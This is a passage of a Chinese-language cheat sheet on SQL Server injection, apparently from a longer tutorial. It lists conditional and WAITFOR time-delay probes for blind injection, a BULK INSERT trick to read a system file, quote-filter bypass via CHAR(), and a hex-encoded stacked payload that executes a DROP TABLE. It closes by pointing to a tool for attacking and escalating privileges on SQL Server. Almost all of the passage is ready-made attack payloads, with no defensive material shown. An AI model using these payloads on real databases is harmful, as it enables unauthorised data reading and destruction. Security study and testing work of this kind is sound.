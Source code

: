 

```
IF...ELSE...//注意IF是不能再SELECT语句中使用的
CASE...WHEN...ELSE...
```

**实例:**



```
IF 1=1 SELECT 'true' ELSE SELECT 'false';
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

**时间**



```
WAITFOR DELAY 'time_to_pass';
WAITFOR TIME 'time_to_execute';
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';//这里表示,如果条件成立,延迟5s
```

**文件**

**查看文件权限**



```
CREATE TABLE mydata (line varchar(8000));
BULK INSERT mydata FROM ‘c:boot.ini’;
DROP TABLE mydata;
```

**定位数据库文件**

```
EXEC sp_helpdb master; –location of master.mdf
```

**绕过技巧**

这里讲绕过技巧的话其实很多和MySQL的绕过姿势都是类似的,就举几个常见的,其他的可以参见前面的MySQL注入攻击与防御

**绕过引号**

```
SELECT * FROM Users WHERE username = CHAR(97) + CHAR(100) + CHAR(109) + CHAR(105) + CHAR(110)
```

**16进制转换绕过**

```
' AND 1=0; DECLARE @S VARCHAR(4000) SET @S=CAST(0x44524f50205441424c4520544d505f44423b AS VARCHAR(4000)); EXEC (@S);--
```



**MSSQL提权**

这里先推荐一个工具[**PowerUpSQL**](https://github.com/NetSPI/PowerUpSQL),主要用于对SQL Server的攻击,还能快速清点内网中SQL Server的机器,更多的信息可以到GitHub上查看使用.
